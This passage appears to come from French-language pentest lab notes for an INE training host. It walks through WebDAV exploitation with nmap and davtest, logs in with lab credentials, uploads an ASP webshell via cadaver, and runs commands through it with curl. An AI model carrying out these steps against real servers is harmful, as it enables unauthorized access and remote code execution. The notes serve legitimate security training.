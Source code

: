 ```bash
mput *.asp                           # Upload multiple
delete filename                      # Supprimer fichier
mkdir dirname                        # Créer répertoire
quit                                 # Quitter
```

---

## 🔧 4. Exploitation WebDAV

### Phase 1: Découverte et test d'accès
```bash
# 1. Scan initial
nmap --script http-enum -sV -p 80 demo.ine.local

# 2. Test davtest sans auth
davtest -url http://demo.ine.local/webdav
# Résultat : 401 Unauthorized

# 3. Test avec credentials (si connus)
davtest -auth bob:password_123321 -url http://demo.ine.local/webdav
```

### Phase 2: Upload de webshell
```bash
# 1. Connexion cadaver
cadaver http://demo.ine.local/webdav
# Username: bob
# Password: password_123321

# 2. Upload webshell ASP
put /usr/share/webshells/asp/webshell.asp
ls                                   # Vérifier upload

# 3. Alternative : upload custom shell
put /path/to/custom_shell.asp
put /path/to/shell.aspx
```

### Phase 3: Accès et exécution
```bash
# 1. Accès via navigateur
firefox http://demo.ine.local/webdav/webshell.asp

# 2. Test RCE via URL
curl "http://demo.ine.local/webdav/webshell.asp?cmd=whoami"
curl "http://demo.ine.local/webdav/webshell.asp?cmd=dir"

# 3. Commands avec URL encoding
curl "http://demo.ine.local/webdav/webshell.asp?cmd=dir+C%3A%5C"
# %3A = :
# %5C = \
```

---